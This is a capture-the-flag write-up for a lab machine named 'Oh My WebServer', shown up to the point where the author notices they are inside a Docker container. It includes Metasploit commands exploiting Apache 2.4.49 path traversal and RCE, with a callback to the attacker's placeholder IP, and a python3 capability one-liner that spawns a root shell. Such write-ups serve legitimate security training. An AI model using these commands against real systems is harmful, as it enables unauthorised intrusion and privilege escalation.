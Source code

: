 # Oh My WebServer

### Oh My WebServer
Nmap scan shows ports 22 and 80 open. Port 80 is an apache web server, version 2.4.49. This version is vulnerable to [path traversal and RCE](https://github.com/blackn0te/Apache-HTTP-Server-2.4.49-2.4.50-Path-Traversal-Remote-Code-Execution).<br />
There's also a metasploit module for this, and I used it to access the machine: <br />

    use multi/http/apache_normalize_path_rce
    set lhost MY_IP
    set rport 80
    set rhosts TARGET_IP
    set ssl false 
    run
Now that I'm on the machine, I used linpeas to enumerate the machine and it finds a capability on python3:<br />
![image](https://github.com/user-attachments/assets/a9e19bce-4d96-45a4-b020-7a9f4ea62491)<br />
There's a very good guide on [here](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/) on how to exploit this capability.<br />
To summerize, you need to execute: `/usr/bin/python3.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'`:<br />
![image](https://github.com/user-attachments/assets/d5dc1bda-53f5-4ed9-bb04-4dc83de866d2)<br />
Thus, become root! The user.txt file is inside /root:<br />
![image](https://github.com/user-attachments/assets/544be2ca-4d8e-4826-934f-5cb791d6b0ad)<br />
This is where I understood that I'm actually in a docker container. Furthermore: <br />
![image](https://github.com/user-attachments/assets/2ea2ae71-7f37-4785-9961-ea39375eef17)<br />
The address of the machine is `172.17.0.2`. This is typical of a docker container. The default gateway is instead `172.17.0.1`, and it's the address of the host machine that contains the container.




